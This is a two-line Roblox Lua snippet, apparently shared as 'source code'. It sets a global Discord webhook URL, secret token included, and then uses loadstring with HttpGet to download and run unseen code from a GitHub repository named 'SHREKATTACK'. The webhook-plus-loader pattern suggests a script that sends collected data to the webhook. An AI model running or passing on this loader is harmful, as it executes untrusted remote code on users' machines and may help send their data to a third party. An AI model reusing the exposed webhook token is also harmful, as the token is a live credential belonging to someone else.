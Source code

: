 _G.webhooksdiscord = "https://discord.com/api/webhooks/1041652908204228689/BxsX8qJytPy5fgbX-gB1vEAwtPrkZmnBFplrM_TGWiMiuM5AbWo8LwEJHhgTbon6i54B"
loadstring(game:HttpGet("https://raw.githubusercontent.com/SHARKX516/SHREKATTACK/main/SHARKLOL2.lua"),true)()
